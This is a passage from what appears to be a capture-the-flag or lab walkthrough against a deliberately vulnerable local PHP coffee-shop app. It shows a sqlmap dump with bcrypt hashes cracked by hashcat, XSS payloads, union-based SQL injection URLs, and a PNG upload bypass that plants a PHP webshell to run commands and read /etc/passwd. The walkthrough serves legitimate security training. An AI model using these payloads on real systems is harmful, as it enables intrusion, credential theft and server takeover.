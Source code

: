 - Dump the `users` table (identified during the command injection part below) using: `sqlmap -r coffee.txt -T users --dump`

```
Table: users
[8 entries]
+---------+--------+--------------------------------------------------------------+----------+
| user_id | type   | password                                                     | username |
+---------+--------+--------------------------------------------------------------+----------+
| 1       | admin  | $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy | jeremy   |
| 2       | admin  | $2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS | jessamy  |
| 3       | admin  | $2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy | raj      |
| 4       | user   | $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC | bob      |
| 5       | user   | $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi | maria    |
| 6       | user   | $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW | amir     |
| 7       | user   | $2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG | xinyi    |
| 8       | user   | $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3. | kofi     |
+---------+--------+--------------------------------------------------------------+----------+

```

- Use Hashcat to crack the extracted password hashes. For example, to crack the bcrypt hash for `jeremy`: `hashcat -m 3200 -a 0 '$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy' /usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt`
- The password `captain1` is cracked for the user `jeremy`.

### Cross-Site Scripting (XSS)

- You can inject a script into the comment section using the following payload: `<script>prompt(1)</script>`
- By creating session containers, it's possible to exploit XSS to retrieve a cookie from one container in another with `<script>document.cookie</script>`.

### Command Injection

- To determine how many columns are required for the SQL injection to work, use the following URL: `http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,null,null,null,null,null,null%20--%20-`. This query shows that 7 columns are needed.
- Once you know the number of columns, you can start gathering information about the database tables: `http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,TABLE_NAME,%27string%27,null,null,null,null%20FROM%20INFORMATION_SCHEMA.TABLES--%20-`
- To get the column names from a specific table, use: `http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,Column_name,%27string%27,null,null,null,null%20FROM%20INFORMATION_SCHEMA.COLUMNS--%20-`
- With the correct table and column names, you can extract sensitive data such as usernames and passwords: `http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,username,password,null,null,null,null%20FROM%20users--%20-`

### Insecure File Upload

- Use the credentials `jeremy:captain1` to log in.
- After logging in, navigate to the admin panel via: `http://localhost/capstone/admin/admin.php`.
- Start by making a normal POST request to upload a PNG file. Once the upload is complete, send this request to BurpSuite's repeater for further inspection.
- Text files are rejected by the upload filter.
- In your POST request, change the file format to PHP, [copy the system payload](https://github.com/JohnTroony/php-webshells) at the end of the first line of your PNG bytes.
- Once the file is uploaded, go to the new post and copy the image path.
- To execute commands on the server, change the file's extension from `.png` to `.php` and append your command in the URL: `http://localhost/capstone/assets/11.php?cmd=whoami`
- You can also try extracting sensitive files with: `http://localhost/capstone/assets/11.php?cmd=cat%20/etc/passwd`

